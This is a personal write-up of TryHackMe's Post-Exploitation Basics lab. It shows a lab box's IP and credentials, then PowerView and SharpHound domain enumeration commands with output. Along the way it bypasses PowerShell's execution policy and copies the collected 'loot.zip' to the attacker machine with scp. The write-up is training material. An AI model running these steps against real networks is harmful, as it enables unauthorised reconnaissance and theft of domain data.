 # Try Hack me's Post-Exploitation Basics Notes

Target: `Windows Server v1.1`

Target ip: `10.10.35.17`

Attacker ip: `10.6.77.38`

RDP/SSH Username: `Administrator`

RDP/SSH Password: `P@$$W0rd`

RDP/SSH Domain Name:`CONTROLLER`





## Intro
**This room will cover**

-post-exploitation enumeration with powerview and bloodhound

-dumping hashes and golden ticket attacks with mimikatz

-basic information gathering using windows server tools and logs

-maintaining access with metasploit to get a meterpreter shell






## Enumeration w/ Powerview

*Starting this room requires RDP or SSHing into the maching.* **Powerview** is a powershell script from the powershell empire that can be used for enumerating a domain after you have already gained a shell in the system. It is already installed on this target machine. Can be found localy on kali's powersploit documentation and scripts
`/usr/share/window-resources/powersploit`

### Steps

1. Start Powershell, using -ep to bypass the execution policy of powershell, allowing scripts to run:

`powershell -ep bypass`

2. Start PowerView:

`. .\Downloads\PowerView.ps1`

3. Enumerate the domain users:

`Get-NetUser | select cn`

```powershell
PS C:\Users\Administrator>Get-NetUser | select cn
cn                  
--                          
Administrator               
Guest                       
krbtgt                      
Machine-1                   
Admin2                      
Machine-2                   
SQL Service                 
POST{P0W3RV13W_FTW}         
sshd 
```

4. Enumerate the domain groups:

`Get-NetGroup -GroupName *admin*`
```powershell
PS C:\Users\Administrator>Get-NetGroup -GroupName *admin*
Administrators
Hyper-V Administrators
Storage Replica Administrators
Schema Admins
Enterprise Admins
Domain Admins
Key Admins
Enterprise Key Admins
DnsAdmins
```

5. Now enumerate the domain further on your own



Here's a cheatsheet to help you with commands: https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

---

### Questions
1. What is the shared folder that is not set by default

*hint: Invoke-ShareFinder*

`Get-NetShare`

```powershell
PS C:\Users\Administrator> Get-NetShare      

shi1_netname  shi1_type shi1_remark         
------------  --------- -----------         
ADMIN$       2147483648 Remote Admin        
C$           2147483648 Default share       
IPC$         2147483651 Remote IPC          
NETLOGON              0 Logon server share  
Share                 0                     
SYSVOL                0 Logon server share 

```


*or from the hint*

`Invoke-ShareFinder`

```powershell
PS C:\Users\Administrator> Invoke-ShareFinder 
\\Domain-Controller.CONTROLLER.local\ADMIN$     - Remote Admin 
\\Domain-Controller.CONTROLLER.local\C$         - Default share 
\\Domain-Controller.CONTROLLER.local\IPC$       - Remote IPC
\\Domain-Controller.CONTROLLER.local\NETLOGON   - Logon server share
\\Domain-Controller.CONTROLLER.local\Share      -
\\Domain-Controller.CONTROLLER.local\SYSVOL     - Logon server share
```
a: Share

---

2. What operating system is running inside of the network besides Windows Server 2019 

*hint Get-NetComputer -fulldata | select operatingsystem*

```powershell
PS C:\Users\Administrator\Downloads> Get-NetComputer -fulldata | select operatingsystem

operatingsystem                  
---------------
Windows Server 2019 Standard
Windows 10 Enterprise Evaluation
Windows 10 Enterprise Evaluation
```


a: Windows 10 Enterprise Evaluation

---

3. I've hidden a flag inside the users, find it. 

*to go with the previous naming system:*

`Get-NetUser | select name`

```powershell
PS C:\Users\Administrator\Downloads> Get-NetUser | select name

name                
----
Administrator
Guest
krbtgt
Machine-1
Admin2
Machine-2
SQL Service
POST{P0W3RV13W_FTW}
sshd
```
a: POST{P0W3RV13W_FTW}

---


## Enumeration w/ Bloodhound

Bloodhound is a GUI that lets one visually map a network. Sharphound, which is similar to PowerView take the user, groups, trusts etc. of the network,  collects them into a .json file to be used inside of Bloodhound.

SharpHound is alread on the target.

### To install Bloodhound on the attacking machine:

1. `apt-get install bloodhound`

2. `sudo neo4j console`

(delault credentials: neo4j/neo4j)

### Getting loot w/ SharpHound

1. *Same as PowerView*`powershell -ep bypass`

2. `. .\Downloads\SharpHound.ps1`

3. `Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip`
```powershell
controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator\Downloads>powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\Downloads> . .\SharpHound.ps1
PS C:\Users\Administrator\Downloads> Invoke-Bloodhound -CollectionMethod ALL -Domain CONTROLLER.local -ZipFileName l
oot.zip
------------------------------------------------ 
Initializing SharpHound at 11:22 AM on 7/29/2021 
------------------------------------------------

Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

[+] Creating Schema map for domain CONTROLLER.LOCAL using path CN=Schema,CN=Configuration,DC=CONTROLLER,DC=LOCAL    
PS C:\Users\Administrator\Downloads> [+] Cache File not Found: 0 Objects in cache 

[+] Pre-populating Domain Controller SIDS 
Status: 0 objects finished (+0) -- Using 71 MB RAM 
Status: 66 objects finished (+66 8)/s -- Using 80 MB RAM 
Enumeration finished in 00:00:00.6137046 
Compressing data to C:\Users\Administrator\Downloads\20210729112230_loot.zip
You can upload this file directly to the UI 

SharpHound Enumeration Completed at 11:22 AM on 7/29/2021! Happy Graphing! 
```
4. Transfer the loot.zip folder to the attacker machine 

*note since connecting via ssh, scp can be used to transfer the file*

```
scp -r  Administrator@10.10.35.17:C:/Users/Administrator/Downloads/20210731093702_loot.zip ~/CTF/THM/Post_Exploitation_Basics/loot.zip


Administrator@10.10.35.17's password: 
20210731093702_loot.zip             100% 9545   101.8KB/s   00:00    
                          
```

### Mapping out the Target network using Bloodhound

1. Run the command `bloodhound` on attacker maching

2. Sign in using the same credentials that had been set with Neo4j *had to reset my password via the neo4j interface on localhost*

3. Import the ***loot.zip*** folder into **bloodhound** by either draging and dropping or by clicking the **import** button. *For my version I had to drag and drop, and the import feature gave an error about "corrupted JSON files"*
